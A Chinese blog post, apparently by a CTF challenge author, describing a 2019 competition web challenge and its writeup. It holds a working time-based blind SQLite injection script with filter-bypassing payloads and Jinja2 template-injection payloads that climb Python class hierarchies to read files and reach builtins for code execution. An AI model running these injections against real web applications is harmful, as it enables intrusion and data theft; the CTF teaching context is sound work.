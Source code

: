 ```yaml
---
title: 2019信安国赛出题经历
date: 2019-06-05 15:22:45
categories: [CODE]
tags:
    - Python
    - 数据库
---
```


## 前言
* 无力吐槽的信安国赛，段子乎喷了上届比赛有多坑，感觉这届也不差啊？
* 算了，我知道是我太菜。

---
* 本博客记录了一篇2019信安国赛复赛本队出题的一些经历。包括题目思路，搭建方法，以及writeup。
* 尽管我们没有最后参加复赛，但是也发现出题是一个很好的锻炼方式。

![](1.jpeg)

<!--more-->

## MORE

* 题目名称：不仅仅是个SQL
* 出题人：CC from nothing

### POINTS
1. 基于SQLITE数据库的盲注
2. 基于jinja2模板注入漏洞的任意代码执行漏洞

### WRITEUP
![](2.jpg)
* 打开网站首先看到的是一个登陆界面

![](1.jpg)
* 照例查看一下网站的robots.txt看一下有没有什么可以发现的。
* robots.txt中是网站登陆认证逻辑的源码，可以看出后算是使用python编写，数据库为sqlite。并对用户输入进行了过滤。

![](2.jpg)
* 输入常用payload发现没有任何回显，所以这里需要盲注
* sqlite3数据库的盲注是采用randomblob()函数
    randomblob()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否。
* 经过多次尝试发现后端过滤了小写的select，from等关键词。于是采用如图所示的方式注入
* 我们编写了如下脚本来注入获取密码

```
def sqlpw(url):
session=requests.Session()
params={"password":"0"}
password=""
for i in range(32):
    for x in "0123456789abcdefghijklmnopqrstuvwsyz":
        try:
            username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
            params['username']=username
            # print(params)
            r=session.post(url,data=params,timeout=1)
            # print(r.status_code)
        except exceptions.Timeout:
            password=password+x
            logging.info(password)
            sleep(3)
            break
return password
```
* 运行脚本之后我们就获取到了密码的md5值，利用网上很多的md5查询库便可以得到密码原文

![](3.jpg)
* 使用用户名密码登陆成功之后出现如上的欢迎界面。检查网页源码发现flag位于根目录下
* 这里的鸟居图片既是另一个提示。jinja2项目的LOGO
![](4.png)

![](4.jpg)
* 从URL传入参数username入手写入测试payload验证漏洞存在

![](5.jpg)
* 经过测试发现注入点过滤方括号，于是构成如图所示payload完成注入获得flag

## Jinja2模板注入漏洞
* Jinja2漏洞最早出现在py2的版本上。
* 漏洞原理基本就是传入的url中如果包含python脚本也是会被模板解析的。因为模板能够访问python内置变量以及变量方法。
* 注意python2和python3存在差别在类层结构上存在差别

```
__class__   返回调用参数类型
__base__    返回基类
__mro__     允许我们在当前Python环境下追溯继承树
__subclasses__()    返回子类
```


1. 获取基类
    
    首先通过str，dict，tuple，list等类型来获取python的基本类（因为python万物皆对象）你也可以通过一些其它jinja2已经导入的包来获取基类

    ```
    python3:
    ''.__class__.__base__
    [].__class__.__base__
    requests.__class__.__base__

    python2:
    ''.__class__.__mro__[2]
    [].__class__.__base__
    requets.__class__.__mro__[8]
    ```

    获取基类的方法可以在python命令行中输入尝试
    
    **如果题目对中括号做了限制，也可以通过__getitem__(2)函数绕过限制**

1. 读取文件

    **以下基类通过object代替**
    
    ```
    python2：
    object.__subclasses__()[40]('/etc/password
    ').read()
    //获取file类读文件
    ```

    python3中要复杂的多，首先是python3的类层结构和python2下相比会复杂的多。其次python3的类必须经过初始化等等操作才可以使用其内建函数

    ```
    python3:
    object.__subclasses__()[78].__init__.__globals__.__builtins__.open("./flag.txt",encoding="utf-8").read()
    ```

    python3中我们获取子类列表之后随便选择一个类，查看其__init__
    ```
    <slot wrapper '__init__' of 'object' objects>
    ```
    wrapper是指这些函数没有被重载。这是他们并不是function，并不具有___globals__属性。我们在多尝试几个子类就可以找到一个被__init__的类，比如。接下来就可以使用内置函数执行命令。

以上都只是最基础的操作，jinja2模板注入还有很多其他操作需要更多的尝试理解才可以完成。

## 后记

* 这次比赛真是一个很不愉快的体验。这个题目出题到写博客也隔了很久。所以有些细节在本博客中可能描述的很不清楚。（总之这篇博客很垃圾就是了）在图书馆办公室一边修理爬虫一边跑着爬虫利用闲暇之余写出来的博客真的质量不高令人堪忧。总之就这样吧，感谢阅读。



